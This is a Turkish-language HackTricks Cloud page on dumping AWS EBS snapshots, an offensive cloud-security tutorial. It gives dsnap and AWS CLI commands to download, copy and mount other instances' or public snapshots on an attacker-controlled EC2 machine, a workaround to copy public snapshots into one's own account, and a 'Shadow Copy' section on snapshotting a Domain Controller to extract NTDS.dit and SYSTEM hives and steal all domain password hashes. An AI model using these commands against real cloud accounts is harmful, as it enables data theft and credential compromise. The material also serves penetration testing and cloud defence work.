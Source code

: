 # AWS - EBS Snapshot Dump

<details>

<summary><strong>AWS hacklemeyi sıfırdan ileri seviyeye öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

### Bir anlık görüntüyü yerel olarak kontrol etme
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
**Not:** dsnap size genel anlık görüntüleri indirmenize izin vermeyecektir. Bunu atlatmak için, anlık görüntünün kopyasını kişisel hesabınızda oluşturabilir ve onu indirebilirsiniz:
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
Bu teknik hakkında daha fazla bilgi için orijinal araştırmayı [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/) adresinden kontrol edebilirsiniz.

Bunu Pacu kullanarak [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) modülü ile yapabilirsiniz.

### AWS'te bir snapshot'ı kontrol etme

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
**Kontrolünüz altındaki bir EC2 VM'sinde bağlayın** (yedeğin kopyasıyla aynı bölgede olmalıdır):

Adım 1: Bu işlemi gerçekleştirebilmek için tercih ettiğiniz boyutta ve tipte yeni bir birim oluşturmak için EC2 –> Birimler'e gidin.

Bu işlemi gerçekleştirebilmek için şu komutları izleyin:
- EC2 örneğine bağlanmak için bir EBS birimi oluşturun.
- EBS birimi ve örneğin aynı bölgede olduğundan emin olun.

Adım 2: Oluşturulan birime sağ tıklayarak "birime bağla" seçeneğini seçin.

Adım 3: Örneği örnek metin kutusundan seçin.

Bu işlemi gerçekleştirebilmek için şu komutu kullanın:
- EBS birimini bağlayın.

Adım 4: EC2 örneğine giriş yapın ve mevcut diskleri `lsblk` komutunu kullanarak listeleyin.

Adım 5: `sudo file -s /dev/xvdf` komutunu kullanarak birimin herhangi bir veri içerip içermediğini kontrol edin.

Yukarıdaki komutun çıktısı "/dev/xvdf: data" ise, birimin boş olduğu anlamına gelir.

Adım 6: `sudo mkfs -t ext4 /dev/xvdf` komutunu kullanarak birimi ext4 dosya sistemi biçimlendirin. Alternatif olarak, `sudo mkfs -t xfs /dev/xvdf` komutunu kullanarak xfs biçimini de kullanabilirsiniz. Lütfen ext4 veya xfs'ten birini kullanmanız gerektiğini unutmayın.

Adım 7: Yeni ext4 birimini bağlamak için tercih ettiğiniz bir dizin oluşturun. Örneğin, "newvolume" adını kullanabilirsiniz.

Bu işlemi gerçekleştirebilmek için `sudo mkdir /newvolume` komutunu kullanın.

Adım 8: Birimi "newvolume" dizinine bağlayın ve `sudo mount /dev/xvdf /newvolume/` komutunu kullanın.

Adım 9: Dizini "newvolume" dizinine değiştirin ve birimin bağlandığını doğrulamak için disk alanını kontrol edin.

Bu işlemi gerçekleştirebilmek için şu komutları kullanın:
- `/newvolume` dizinine değiştirin.
- `df -h .` komutunu kullanarak disk alanını kontrol edin. Bu komutun çıktısı, "newvolume" dizinindeki boş alanı göstermelidir.

Bunu Pacu kullanarak `ebs__explore_snapshots` modülü ile yapabilirsiniz.

### AWS'de bir snapshot'ı kontrol etme (cli kullanarak)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
### Gölge Kopya

**`EC2:CreateSnapshot`** iznine sahip herhangi bir AWS kullanıcısı, **Etki Alanı Denetleyicisinin** bir **anlık görüntüsünü oluşturarak** kontrol ettikleri bir örneğe bağlayarak ve Impacket'in secretsdump projesi ile kullanmak üzere **NTDS.dit ve SYSTEM** kayıt defteri hive dosyasını dışa aktararak tüm etki alanı kullanıcılarının hash'lerini çalabilir.

Bu saldırıyı otomatikleştirmek için bu aracı kullanabilirsiniz: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) veya bir anlık görüntü oluşturduktan sonra önceki tekniklerden birini kullanabilirsiniz.


# Referanslar
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na (https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'da **takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
